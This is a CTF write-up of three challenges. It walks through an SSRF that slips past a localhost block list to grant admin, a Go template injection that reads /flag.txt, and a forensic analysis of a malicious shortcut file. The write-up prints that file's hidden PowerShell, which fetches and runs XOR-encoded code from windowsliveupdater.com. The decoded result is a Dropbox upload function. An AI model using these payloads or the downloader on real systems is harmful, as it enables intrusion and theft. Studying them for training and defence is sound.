## Web
### Haunt Mart
>An eerie expedition into the world of online retail, where the most sinister and spine-tingling inventory reigns supreme. Can you take it down?
--------
Checking source code:
config.py:
```python
from application.util import generate

class Config(object):
    SECRET_KEY = generate(50)
    MYSQL_HOST = 'localhost'
    MYSQL_USER = 'xclow3n'
    MYSQL_PASSWORD = 'xclow3n'
    MYSQL_DB = 'hauntmart'
    FLAG = open('/flag.txt').read()

class ProductionConfig(Config):
    pass

class DevelopmentConfig(Config):
    DEBUG = True

class TestingConfig(Config):
    TESTING = True
```
We can see our flag is set as a FLAG variable, and also note that DEBUG/TESTING is set to true.
The route is also intersting:
```python
from application.database import *
from flask import Blueprint, redirect, render_template, request, session, current_app
from application.util import response, isAuthenticated, generateToken, isFromLocalhost, downloadManual
import sys

web = Blueprint('web', __name__)
api = Blueprint('api', __name__)

@web.route('/', methods=['GET'])
def loginView():
    return render_template('login.html')

@web.route('/register', methods=['GET'])
def registerView():
    return render_template('register.html')

@web.route('/home', methods=['GET'])
@isAuthenticated
def homeView(user):
    return render_template('index.html', user=user, flag=current_app.config['FLAG'])

@web.route('/product', methods=['GET'])
@isAuthenticated
def productView(user):
    return render_template('product.html', user=user)

@web.route('/logout')
def logout():
    session['token'] = None
    return redirect('/')

@api.route('/login', methods=['POST'])
def api_login():
    if not request.is_json:
        return response('Invalid JSON!'), 400
    
    data = request.get_json()
    username = data.get('username', '')
    password = data.get('password', '')
    
    if not username or not password:
        return response('All fields are required!'), 401
    
    user = loginUserDb(username, password)
    
    if user:
        token = generateToken(user.get('username'), user.get('role'))
        session['token'] = token
        return response('Success'), 200
        
    return response('Invalid credentials!'), 403

@api.route('/register', methods=['POST'])
def api_register():
    if not request.is_json:
        return response('Invalid JSON!'), 400
    
    data = request.get_json()
    username = data.get('username', '')
    password = data.get('password', '')
    
    if not username or not password:
        return response('All fields are required!'), 401
    
    user = registerUserDb(username, password, 'user')
    
    if user:
        return response('User registered! Please login'), 200
        
    return response('User already exists!'), 403

@api.route('/product', methods=['POST'])
@isAuthenticated
def sellProduct(user):
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()
    name = data.get('name', '')
    price = data.get('price', '')
    description = data.get('description', '')
    manualUrl = data.get('manual', '')

    if not name or not price or not description or not manualUrl:
        return response('All fields are required!'), 401

    manualPath = downloadManual(manualUrl)
    if (manualPath):
        addProduct(name, description, price)
        return response('Product submitted! Our mods will review your request')
    return response('Invalid Manual URL!'), 400


@api.route('/addAdmin', methods=['GET'])
@isFromLocalhost
def addAdmin():
    username = request.args.get('username')
    
    if not username:
        return response('Invalid username'), 400
    
    result = makeUserAdmin(username)

    if result:
        return response('User updated!')
    return response('Invalid username'), 400
```
Note the addAdmin route, the only security measure is to accept requests from localhost. If we can find SSRF, we can add our account to admin.
Exploring the webpage:



Very quickly, I find the product page, where we might sell a product. The description details that moderators will "verify the product thoroughly"



If our moderator blindly clicks everything, we might get away with just sending him a link to add our user as admin. Otherwise, we might consider a cheeky XSS payload that does this upon loading our request.



We see an invalid URL error. It is a little difficult to troubleshoot over the webpage, but when we examine the source code again we can see the problem.
In `util.py`:
```python
import os, jwt, datetime, requests
from functools import wraps
from flask import jsonify, abort, session, request

generate = lambda x: os.urandom(x).hex()
key = generate(50)

blocked_host = ["127.0.0.1", "localhost", "0.0.0.0"]
<...SNIP...>
def isSafeUrl(url):
    for hosts in blocked_host:
        if hosts in url:
            return False
    
    return True
<...SNIP...>
def downloadManual(url):
    safeUrl = isSafeUrl(url)
    if safeUrl:
        try:
            local_filename = url.split("/")[-1]
            r = requests.get(url)
            
            with open(f"/opt/manualFiles/{local_filename}", "wb") as f:
                for chunk in r.iter_content(chunk_size=1024):
                    if chunk:
                        f.write(chunk)
            return True
        except:
            return False
    
    return False
```
There are a list of blocked hosts, which are being filtered. Fortunately for us, the url request for `localhost` is not case sensitive. We can bypass this filter by adding uppercase letters, such as `locAlhost`, and the request will still be interpreted as the local host address, `127.0.0.1`.



The request successfully goes though, but I wasn't seeing any flag. At this point, I decided to run a local copy with the provided Docker files so I might see requests happening in the CLI:
```
$ sudo ./build-docker.sh
<...SNIP...>
 * Running on http://127.0.0.1:1337
 * Running on http://172.17.0.2:1337
Press CTRL+C to quit
 * Restarting with stat
 * Debugger is active!
 * Debugger PIN: 110-143-363
2023-10-26 17:36:49,496 INFO success: flask entered RUNNING state, process has stayed up for > than 1 seconds (startsecs)
```
Now when I visit a site on the address `http://127.0.0.1:1337`, this running program will give me backend info on the request. Example, visiting the main page:
```
172.17.0.1 - - [26/Oct/2023 17:36:51] "GET / HTTP/1.1" 200 -
172.17.0.1 - - [26/Oct/2023 17:36:51] "GET /static/css/bootstrap.min.css HTTP/1.1" 304 -
172.17.0.1 - - [26/Oct/2023 17:36:51] "GET /static/css/style.css HTTP/1.1" 304 -
172.17.0.1 - - [26/Oct/2023 17:36:51] "GET /static/js/jquery.js HTTP/1.1" 304 -
172.17.0.1 - - [26/Oct/2023 17:36:51] "GET /static/js/script.js HTTP/1.1" 304 -
172.17.0.1 - - [26/Oct/2023 17:36:51] "GET /static/images/logo.png HTTP/1.1" 304 -
```
When I view the product submission, I can see my injected URL also being visited:
```
127.0.0.1 - - [26/Oct/2023 17:46:53] "GET /addAdmin?username=asdf HTTP/1.1" 404 -
172.17.0.1 - - [26/Oct/2023 17:46:53] "POST /api/product HTTP/1.1" 200 -
```
The 2nd POST request is referring to my submission on the product page while the 1st GET request is where i directed the Manual URL. Note that the request response is a `404` error, equivalent to a page not found or not existing.
Something I had overlooked was the route behavior differences between `web` and `api`. The above route source code details some routes as `@api.route` and others as `@web.route`. All page visits we have been seeing are web.route, meanwhile things such as the login post and product post are for api.route. A careful look at the POST request for product shows the address as `/api/product`. All this to say, I was submitting the address wrong after all. We should be looking to send it to `/api/addAdmin` instead!



The request shows green submission, and looking at the request log, we can see a response code 200 this time:
```
127.0.0.1 - - [26/Oct/2023 17:57:06] "GET /api/addAdmin?username=asdf HTTP/1.1" 200 -
172.17.0.1 - - [26/Oct/2023 17:57:06] "POST /api/product HTTP/1.1" 200 -
```
At this stage for some reason I had to log out and log back in, perhaps a caching issue? Regardless, once I return to the home page I find the flag!



### Ghostly Templates
>In the dark corners of the internet, a mysterious website has been making waves among the cybersecurity community. This site, known for its Halloween-themed templates, has sparked rumors of an eerie secret lurking beneath the surface. Will you delve into this dark and spooky webapp to uncover the hidden truth?
------------

Ghostly Templates is a web server utilizing Go.
There is only one main page, and it mentions potential template functions we might try, and a submission form to supply our template link:




Distraction: LFI through view.
Within the `view?page=`, it feels like directory traversal might be possible. We can even access `main.go`.



However, this is not the way. If we look at the source code, we can see that there is a function checking if we are accessing a file outside of the web root folder:
```go
if !reqData.IsSubdirectory("./", TEMPLATE_DIR+"/"+page) {
                        http.Error(w, "Internal Server Error", http.StatusInternalServerError)
                        return
```
This was something I did not find a bypass for, but there is a different solution.
Also within the source code, we find an interesting function:
```go
func (p RequestData) OutFileContents(filePath string) string {
        data, err := os.ReadFile(filePath)
        if err != nil {
                return err.Error()
        }
        return string(data)
}
```
We can supply an html file that calls `OutFileContents`, have the service load our template, then execute a read on flag.txt. Because of the docker files, we know the flag exists at the base directory, outside app:
```
$ cat ../Dockerfile 

FROM alpine:3.18.3
<...SNIP...>
# Copy flag
COPY flag.txt /flag.txt
```

Making the html file:
```html
<!DOCTYPE html>
<html lang="en">
 
<body>
    {{.OutFileContents "/flag.txt"}}
</body>
 
</html>
```
Running a local test is very simple, as we can use our internal IP address and a python server:
```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
My internal IP is `192.168.0.164`, so I can reach this by entering the link as `http://192.168.0.164/test.html`. When we visit, we get the test flag!



This is all great for testing, but the CTF machine will not be able to reach us if we try supplying the previous IP address. We need to use something such as `ngrok` that can allow our server to be publicly accessible. 



## Forensics
### Trick or Treat
>Another night staying alone at home during Halloween. But someone wanted to play a Halloween game with me. They emailed me the subject "Trick or Treat" and an attachment. When I opened the file, a black screen appeared for a second on my screen. It wasn't so scary; maybe the season is not so spooky after all.

----------
We are given a traffic capture file (pcap) and a lnk file, presumably the "malicious" link that our buddy fell for. First, examining the lnk file:
```
$ cat trick_or_treat.lnk 
L�F�@FC5P�O� �:i�+00�/C:\V1Windows@     �.WindowsZ1system32B    �.system32V2cmd.exe@    �.cmd.exeTrick or treatC:�/k for /f "tokens=*" %a in ('dir C:\Windows\SysWow64\WindowsPowerShell\v1.0\*rshell.exe /s /b /od') do call %a -windowstyle hidden "$asvods ='';$UserAgents = @('Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36','Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Edge/15.15063','Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; AS; rv:11.0) like Gecko');$RandomUserAgent = $UserAgents | Get-Random;$WebClient = New-Object System.Net.WebClient;$WebClient.Headers.Add('User-Agent', $RandomUserAgent);$boddmei = $WebClient.DownloadString('http://windowsliveupdater.com');$vurnwos ='';for($i=0;$i -le $boddmei.Length-2;$i=$i+2){$bodms=$boddmei[$i]+$boddmei[$i+1];$decodedChar = [char]([convert]::ToInt16($bodms, 16));$xoredChar=[char]([byte]($decodedChar) -bxor 0x1d);$vurnwos = $vurnwos + $xoredChar};Invoke-Command -ScriptBlock ([Scriptblock]::Create($vurnwos));Invoke-Command -ScriptBlock ([Scriptblock]::Create($asvods));C:\Windows\System32\shell32.dll�%SystemRoot%\System32\shell32.dll%SystemRoot%\System32\shell32.dll�%�
                                 �wN���]N�D.��Q����     ��1SPS�XF�L8C���&�m�m.S-1-5-21-3849600975-1564034632-632203374-1001
```
We can see very clearly that a request is being sent to `http://windowsliveupdater.com`. We know where communication was being sent, but it looks as though the data is being manipulated as we can see with the `xor` function, `$xoredChar=[char]([byte]($decodedChar) -bxor 0x1d);$vurnwos = $vurnwos + $xoredChar};`. When we examine the network traffic data with Wireshark, we see only one data object associated with `windowsliveupdater.com`, which makes the process easier.



If we follow this stream, we can see a large chunk of data, clearly encoded:



After spending some time trying to reverse the encoding steps listed from our `lnk` file, I wasn't getting a reasonable answer. Those with a sharp eye, however, might have noticed right away that this data chunk is being sent from the target, to our victim. Meaning, the decoding actions done in the `lnk` file *is* the way to decode. Instead of reversing the steps, we just need to replicate them. In powershell:
```powershell
PS C:\Users\Flare\Desktop\forensics_trick_or_treat\trick_or_treat> $boddmei = "7b68737e697472733d596f726d5f726530486d71727c793d661717465e70797178695f7473797473<...SNIP...>7c791760";$vurnwos ='';for($i=0;$i -le $boddmei.Length-2;$i=$i+2){$bodms=$boddmei[$i]+$boddmei[$i+1];$decodedChar = [char]([convert]::ToInt16($bodms, 16));$xoredChar=[char]([byte]($decodedChar) -bxor 0x1d);$vurnwos = $vurnwos + $xoredChar}

PS C:\Users\Flare\Desktop\forensics_trick_or_treat\trick_or_treat> echo $vurnwos
function DropBox-Upload {

[CmdletBinding()]
param (

[Parameter (Mandatory = $True, ValueFromPipeline = $True)]
[Alias("f")]
[string]$SourceFilePath
)
$DropBoxAccessToken = "HTB{s4y_Pumpk1111111n!!!}"
$outputFile = Split-Path $SourceFilePath -leaf
```
When we echo the decoded `$vurnwos`, the message is properly decoded!
